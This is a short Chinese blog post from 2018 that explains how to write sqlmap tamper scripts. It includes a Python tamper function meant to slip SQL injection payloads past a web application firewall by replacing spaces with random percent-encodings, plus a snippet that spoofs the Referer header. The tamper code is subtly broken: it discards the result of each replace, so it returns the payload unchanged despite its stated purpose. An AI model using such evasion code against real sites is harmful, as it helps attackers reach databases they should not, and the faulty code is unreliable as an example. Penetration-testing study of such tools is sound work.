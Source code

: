 ```yaml
---
title: "SQLMap Tamper 编写"
date: 2018-05-12T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqli','python']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



sqlmap 是一个开源的渗透测试工具, 可以用来自动化的检测, 利用 SQL 注入漏洞, 获取数据库服务器的权限.

<!--more-->

在 sqlmap 的 tamper 中, 需要实现的地方有 3 处.

```
__priority__ - 脚本优先级
dependencies - 适用/不适用的范围
tamper - 用于 bypass waf
```

dependencies 一般不用设置, __priority__ 默认为 PRIORITY.LOW 即可

# bypass

拿之前遇到的 waf 举个例子

```
import random
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    fuzz = ('0','1','2','3','4','5','6','7','8','9')
    for _ in range(len(payload.split(' '))-1):
        string = r'%' + random.choice(fuzz) + random.choice(fuzz)
        payload.replace(' ',string,1)
    return payload
```

# Other

kwargs 更改 header

```
headers = kwargs.get('headers', {})
headers['Referer'] = 'http://www.baidu.com/'
```